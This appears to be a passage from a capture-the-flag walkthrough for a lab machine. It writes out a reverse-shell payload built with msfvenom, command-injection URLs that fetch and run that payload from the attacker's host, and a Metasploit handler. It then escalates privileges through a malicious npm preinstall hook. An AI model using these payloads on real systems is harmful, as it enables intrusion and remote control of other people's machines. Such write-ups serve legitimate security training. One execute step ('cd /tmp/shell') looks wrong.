 Utilize msfvenom to generate the payload:

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.16.65 LPORT=1234 -f elf > shell
```

Then upload the shell to the victim and execute it. As you are not allowed to use `.`. So convert the IP address to decimal by [this website](https://www.ipaddressguide.com/ip). Access the following URLs to execute the corresponding commands:

* upload shell: `http://10.10.10.25:8000/admin/export?table=notes%26cd%20/tmp%20%26%26wget%20168431681/shell`
* change permission: `http://10.10.10.25:8000/admin/export?table=notes%26chmod%20777%20/tmp/shell`
* execute shell: `http://10.10.10.25:8000/admin/export?table=notes%26cd%20/tmp/shell`

Before running the shell, you should set meterpreter in Kaili.

```
use exploit/multi/handler
set LHOST 10.10.16.65
set LPORT 1234
set payload linux/x86/meterpreter/reverse_tcp
run
```

Then, we get the shell!

![Evb1cF.png](https://s2.ax1x.com/2019/05/20/Evb1cF.png)

![EvbGnJ.png](https://s2.ax1x.com/2019/05/20/EvbGnJ.png)

## Privilege escalation

Check the sudo permissions firstly: `sudo -l`. You will find the user has the permission to execute `sudo npm i`. [rimrafall](https://github.com/joaojeronimo/rimrafall) this repository has described that npm install may be dangerous. It can be utilized to execute commands. You can upload the directory to the victim or create one by yourself.

```
cd app
mkdir rimrafall
cd rimrafall
echo "module.exports = "install my be dangerousr"" > index.js
```

Create the `package.json` and upload it to the target directory. `preinstall` can be utilized to execute the command. I have found that some command to obtain a reverse shell is not useful. As Perl is installed in the machine. And create a file called prel3 to obtain the reverse shell.

```

{
  "name": "rimrafall",
  "version": "1.0.0",
  "description": "rm -rf /* # DO NOT INSTALL THIS",
  "main": "index.js",
  "scripts": {
    "preinstall": "perl prel3"
  },
  "keywords": [
    "rimraf",
    "rmrf"
  ],
  "author": "João Jerónimo",
  "license": "ISC"
}
```
